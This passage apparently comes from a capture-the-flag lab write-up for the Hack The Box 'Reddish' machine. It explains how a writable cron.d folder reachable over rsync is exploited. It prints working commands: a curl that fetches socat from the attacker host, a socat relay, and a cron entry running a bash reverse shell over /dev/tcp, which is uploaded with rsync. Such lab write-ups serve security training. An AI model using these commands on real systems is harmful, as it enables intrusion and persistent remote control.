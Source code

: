 ## Access to backup containers

After connecting with rsync, it was discovered that there is potential access to the cron.d folder, presenting a potential vector for attack. This access allows for both reading and writing privileges. This could be leveraged to create and execute tasks, such as initiating a reverse shell.

![crond](/assets/img/htb/reddish/crond.png)

Before proceeding, the initial step involves downloading socat to the www container. This can be achieved by utilizing the already listening socat on the nodered server, redirecting port 9002 of nodered to the attacker machine's port 9002. Consequently, if a web server is launched by the attacker on port 9002, and a curl request is made from the www server to nodered on port 9002, the response received will be from the attacker machine's website.

> for the curl part simply use the `__curl` function mentioned before.

Then simply from the www container run
```bash
__curl http://172.19.0.4:9002/Cats/Linux/socat > socat
```

Assign executable permissions on socat and run it

```bash
root@www:~## chmod +x socat
root@www:~## ./socat TCP-LISTEN:9002,fork TCP:172.19.0.4:9002 &
```

> remember to close the web server running on port 9002 on the attacker machine before Proceeding

Now it is possible to exploit the cron misconfiguration of rsync following the next steps:

1. create a file with the new task 

```bash
echo '* * * * * root bash -c "bash -i >& /dev/tcp/172.20.0.2/9002 0>&1"' > task
```

2. upload the file to the cron folder of the remote server

```bash
rsync task rsync://backup:873/src/etc/cron.d/task
```
A reverse shell is obtained.

![revshell on backup](/assets/img/htb/reddish/revshell_backup.png)
